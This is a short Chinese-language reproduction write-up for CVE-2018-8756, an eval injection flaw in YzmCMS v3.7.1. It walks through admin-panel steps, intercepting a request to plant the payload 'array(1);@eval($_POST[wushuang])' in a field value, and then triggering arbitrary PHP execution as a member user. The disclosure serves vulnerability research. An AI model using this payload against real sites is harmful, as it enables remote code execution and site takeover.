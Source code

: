 # CVE-2018-8756 YzmCMS v3.7.1 Eval注入漏洞

### 一、漏洞简介

YzmCMS是中国程序员袁志蒙开发的一套开源的CMS（内容管理系统）。 YzmCMS 3.7.1版本中的yzmphp/core/function/global.func.php文件存在安全漏洞。远程攻击者可借助index.php?m=member&c=member_content&a=init请求的POST数据中的PHP代码利用该漏洞执行任意代码。

### 二、漏洞影响

YzmCMS v3.7.1

### 三、复现过程

首先，从网站后台登陆，`/index.php?m=admin&c=index&a=init`，然后选择模型管理，选 择模型 ID 为 1 的那个字段管理，然后添加字段，像下面这张图一样填表。

![](images/15896470486182.png)


接着需要拦截数据包，像图片一样，


```
修改 fieldtype 为 datetime，修改 datesest 为 array(1);@eval($_POST[wushuang])
```

![](images/15896470633813.png)


接着我们需要一个用户可以触发这个漏洞，选择会员管理，选择会员管理，添加用户， 填表如下。

![](images/15896470704134.png)


现 在 我 们 已 经 完 成 了 准 备 工 作 ， 接 着 以 用 户 身 份 登 陆 ， `guici/123456,/index.php?m=member&c=index&a=login`，点击在线投稿，接着你就可以执行任 意代码通过输入 post 数据 `wushuang！/index.php?m=member&c=member_content&a=init`

![](images/15896470948707.png)


参考链接

https://github.com/guiciwushuang/yzmcms/blob/master/yzmcms_eval_injection_chinese.pdf